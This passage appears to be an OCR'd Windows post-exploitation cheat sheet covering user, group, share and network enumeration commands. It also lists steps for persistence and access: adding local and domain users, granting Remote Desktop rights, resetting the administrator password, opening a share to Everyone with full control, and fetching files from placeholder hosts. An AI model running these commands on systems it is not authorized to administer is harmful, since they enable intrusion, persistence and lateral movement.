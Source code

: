     -check directory for writeable files
powershell Get-ChildItem -Recurse | Get-Acl | out-string -stream | select-string -pattern "everyone"
    -check for world-writeable files
   
File Transfer  
iexplore.exe http://blah.com/filename.zip
C:\windows\explorer.exe http://somewhere.com/filename.ext
ftp ftp.site.dom
   
   
USERS
whoami
net users
net user /domain
    -list users in current domain
net user username
    -list user info
net user name pass /add
    -add local system user
net user user_name * /domain
    -add user to domain with interactive prompt for password
net user name setpword
net user /DOMAIN %USERNAME%
    -check user's network group membership
net user /domain user
    -check another user's information
net group "Domain Users" /domain
    -list users in AD group
net localgroup "administrators" /domain
    -list domain local group users
net group “Domain Admins” /domain
net group “Enterprise Admins” /domain
net group “Domain Controllers” /domain
NET LOCALGROUP "Remote Desktop Users" trinity /ADD
net accounts
    -prints password policy for locahost
net accounts /domain
dsmod user /?
    -get dsmod commands cruft
dsmod user administrator -pwd NewPassword -mustchpwd yes
    -modify user password, set pwExpired flag
 
 
NETWORK
arp -A
net view
    -view available network share hosts
net view \\HOST
    -view available shares on host
net view /domain:otherdomain
    Queries NBNS/SMB (SAMBA) and tries to find all hosts in ‘otherdomain’
tasklist /V /S computername
qwinsta /SERVER:computername
qprocess /SERVER:computername *
net use \\computername This maps IPC$ which does not show up as a drive but allows you to access the remote system as the current user. This is less helpful as most commands will automatically make this connection if needed
dir \\computername\share_or_admin_share\
net use \\computer\share
    -mount an smb share
net use X: \\10.2.2.224\C$
net use * http//hostname/nfs/ pword /USER:username
net share name=c:\path\to\share
    -create smb share
net share name=c:\path\to\share /GRANT:Everyone,FULL